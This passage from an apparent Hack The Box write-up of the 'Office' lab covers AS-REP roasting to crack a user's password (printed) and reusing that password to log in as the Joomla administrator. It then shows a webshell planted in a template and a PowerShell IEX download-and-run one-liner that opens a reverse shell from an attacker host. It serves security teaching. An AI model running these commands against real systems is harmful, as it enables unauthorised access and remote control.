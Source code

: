 ![](/assets/images/HTB-Writeup-Office/Pasted image 20240619123145.png)

- With this, the pentester observed that the user `tstark` is part of the `Registry Editors` group, similar to the domain user `ppotts`.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619131543.png)

- When you do not enforce pre-authentication, a malicious attacker can directly send a dummy request for authentication. The KDC will return an encrypted TGT and the attacker can brute force it offline.



>Comments: If you want to see more, [rioasmara](https://rioasmara.com/author/rioasmara/) has a [post](https://rioasmara.com/2020/07/04/kerberoasting-as-req-pre-auth-vs-non-pre-auth/) where he compares the behavior when `PRE-AUTH` (**Kerberos preauthentication**) is enabled versus when it's not, showing packet captures in Wireshark.
{: .prompt-info }


- The pentester has obtained new credentials (`tstark` : `playboy69`). Enumeration is an iterative process; however, this time access to the target via WinRM was unsuccessful, and no interesting files were found in SMB. Therefore, the pentester attempted to access the `admin` dashboard of Joomla with this new pair of credentials, but had no luck. Later, using the same password, the pentester tried the `administrator` username and successfully logged in!

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619140237.png)

- Then, exploiting Joomla as the user `administrator` is straightforward in most cases. The pentester will modify a PHP file, uploading a webshell inside a template. This time, the pentester chose [`p0wny-shell`](https://github.com/flozz/p0wny-shell?tab=readme) as the webshell.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619142929.png)

- Then, the pentester obtained a reverse shell using the PowerShell script [`Invoke-PowerShell.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). He added a line at the end of the script to call the function.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619143306.png)

- Then, he simply executed the following command and received a reverse shell.


```powershell
powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.69/Invoke-PowerShellTcp.ps1')
```


![](/assets/images/HTB-Writeup-Office/Pasted image 20240619143917.png)


![](/assets/images/HTB-Writeup-Office/Pasted image 20240619143857.png)

- Since the pentester had credentials for the user `tstark`, he used [`RunasCs.exe`](https://github.com/antonioCoco/RunasCs/releases) to obtain a Meterpreter reverse shell.
